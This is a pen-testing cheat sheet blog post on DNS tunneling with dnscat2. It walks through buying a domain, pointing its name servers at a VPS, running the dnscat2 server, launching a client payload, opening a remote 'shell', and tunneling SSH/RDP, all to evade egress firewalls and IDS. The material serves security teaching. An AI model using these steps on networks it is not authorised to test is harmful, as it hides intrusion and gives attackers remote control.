 ```yaml
---
layout: blog_item
title: "DNS Tunneling dnscat2 Cheat Sheet"
date:   2024-06-24 10:29:10
author: Dhruv Ambaliya
description: 'Learn what DNS tunneling is, when to use it on a pen test and how to tunnel over DNS using dnscat2.'
categories: [cheat-sheet]
tags:
- 'Pen-Testing'
- 'Infrastructure'
---
```


* list element with functor item
{:toc}

## What is DNS Tunneling 

DNS tunneling is used to evade egress firewall rules and/or IDS / proxy or other web filtering applicances by tunneling data over DNS. DNS tunneling usually works as external DNS resolution is available on most networks, it should be noted that DNS tunneling is slow due to the low amounts of data that can be transfered. 
<!--more-->

**What You Will Learn:**

- What is DNS tunneling 
- How to setup dnscat2
- How to tunnel data over dnscat2 

## You Will Need

1. A real world domain, <a href="https://www.namesilo.com/?rid=45f0146bp " rel="nofollow">NameSilo</a> works well and has free WHOIS privacy.
2. A VPS to run DNSCAT2 - <a href="https://www.linode.com/?r=de68d06f20e245c4952795b3a57180b223ff4d42" rel="nofollow">Linode is cheap and works for this and this link will give you a $100 voucher</a> (see instructions below) 

In order to tunnel data over DNS a real world domain must be used and the domains authoritivate name servers must be set to servers in your control. 


## Buying a Domain 

<a href="https://www.namesilo.com/?rid=45f0146bp " rel="nofollow">NameSilo</a>  offers free domain WHOIS privacy, a lot of extensions and is well priced. 

### How to Change Name Servers On NameSilo 

Login to <a href="https://www.namesilo.com/?rid=45f0146bp " rel="nofollow">NameSilo</a> and follow these instructions to change the authoritative name servers: 

1.  Go to the Domain Manager page within your account
2.  Click the applicable domain name (it will be underlined in black)
3.  Click the "View/Manage Registered NameServers" link within the "NameServers" box

## DNS Forwarding with Dnscat2  

1. Install dsncat2 ```apt-get install dnscat2 -y```
2. Run:  ```dnscat2-server yourdomain.com``` on your VPS
3. From the client machine you will need to run the dnscat2 payload 
4. If your domain's NS are configured correctly the session should be established 
5. Enter ```session -i``` to spawn an interactive session 
6.  Launch a shell using ```shell```

## Dnscat2 Port Forwarding 

Dnscat2 supports TCP forwarding allowing you to tunnel SSH or RDP connections over the established DNS tunnel. 

{% highlight bash %} 
command (client) 4> listen 127.0.0.1:22 target:22 
{% endhighlight %}

Again this will slow but functional. 

Enjoy.	
